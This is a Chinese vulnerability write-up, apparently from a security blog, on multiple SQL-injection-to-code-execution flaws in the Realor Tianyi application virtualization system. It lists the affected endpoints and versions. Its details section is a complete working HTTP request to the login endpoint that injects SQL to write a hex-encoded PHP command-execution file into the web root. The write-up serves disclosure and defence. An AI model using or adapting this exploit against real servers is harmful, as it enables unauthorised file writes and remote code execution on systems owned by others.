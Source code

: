 ```yaml
---
created: 2024-10-01T09:05:00+00:00
categories:
  - 技术研究
tags:
  - 漏洞分析
updated: 2023-04-14T00:00:00+00:00
date: 2023-04-13T00:00:00+00:00
slug: realor-tianyi-multiple-sqli2rce
title: 瑞友天翼应用虚拟化系统多个SQLi2RCE漏洞
id: 112906e1-7468-801d-9466-c5f6a022d3cb
---
```


## 0x00 漏洞简介

瑞友天翼应用虚拟化系统是西安瑞友信息技术资讯有限公司研发的具有自主知识产权，基于服务器计算(Server-based Computing)架构的应用虚拟化平台。它将用户各种应用软件（ERP/OA/CRM 等）集中部署在瑞友天翼服务器(群)上，客户端通过 WEB 即可快速安全的访问经服务器上授权的应用软件，实现集中应用、远程接入、协同办公等，从而为用户打造集中、便捷、安全、高效的虚拟化支撑平台。

瑞友天翼应用虚拟化系统存在多个 SQL 注入漏洞，攻击者可以通过 SQL 漏洞写入任意文件，进而达到执行任意代码。

## 0x01 影响版本

多个漏洞，以下前四个漏洞不影响目前最新 7.0.3.1 版本，最后一个漏洞影响 7.0.3.1 版本。

- `/Index/dologin/name`
  - 5.x <= version < 7.0.3.1
- `/Agent/GetBSAppUrl/AppID`
  - 5.x <= version < 7.0.3.1
- `RAPAgent.XGI`
  - 5.x <= version < 7.0.3.1
- `ConsoleExternalUploadApi.XGI`
  - 5.x <= version < 7.0.3.1
- `ConsoleExternalApi.XGI`
  - 5.x <= version <= 7.0.3.1

## 0x02 漏洞详情

### /Index/dologin/name

```http
GET /index.php?s=/Index/dologin/name/demo%27)%3bselect%20unhex%28%273c3f70687020246f7574707574203d20617272617928293b657865632827646972272c20246f7574707574293b666f72656163682028246f757470757420617320246c696e6529207b6563686f20246c696e65202e205048505f454f4c3b7d202466696c65203d205f5f46494c455f5f3b20756e6c696e6b282466696c65293b%27%29%20into%20outfile%20%27%2e%5C%5C%2e%2e%5C%5C%2e%2e%5C%5CWebRoot%5C%5CBMyY3q.XGI%27%23/pwd/123123 HTTP/1.1
Host: 192.168.21.89:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate


```
